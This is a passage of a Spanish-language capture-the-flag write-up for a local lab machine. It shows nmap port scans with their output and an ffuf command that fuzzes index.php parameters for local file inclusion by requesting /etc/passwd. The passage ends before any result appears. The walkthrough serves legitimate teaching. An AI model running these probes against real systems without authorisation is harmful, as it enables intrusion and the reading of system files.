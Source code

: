 Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-11 14:13 EST
Nmap scan report for 172.17.0.2
Host is up (0.00013s latency).

PORT   STATE SERVICE    VERSION
22/tcp open  ssh        OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f1:2d:b0:54:e3:57:94:c8:3a:1a:7a:ba:d8:2d:7e:f9 (ECDSA)
|_  256 cc:70:cb:29:31:d9:48:f7:e2:2f:ec:b2:65:8c:ee:8e (ED25519)
80/tcp open  tcpwrapped
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: \xF0\x9F\x91\x8B Mario \xC3\x81lvarez Fer\xC5\x84andez
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.13 seconds
```

Vemos que hay `2` puertos abiertos, si entramos en la pagina que hay alojada en el puerto `80` veremos una pagina aparentemente normal, por lo que vamos a realizar un poco de `fuzzing`, pero si lo hacemos con `gobuster` no vamos a ver muchos resultados ya que algo lo esta bloqueando, pero si investigamos y le damos a `Sobre Mi` vemos en la `URL` que nos lleva a un `index.php`, ya que como tiene una extension `.php` vamos a probar a realizar un poco de `fuzzing` con la extension por si tuviera alguna vulnerabilidad de un `LFI`.

## FFUF

```shell
ffuf -u http://<IP>/index.php\?FUZZ\=/etc/passwd -w <WORDLIST> -fs 22274
```

Info:

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2/index.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
```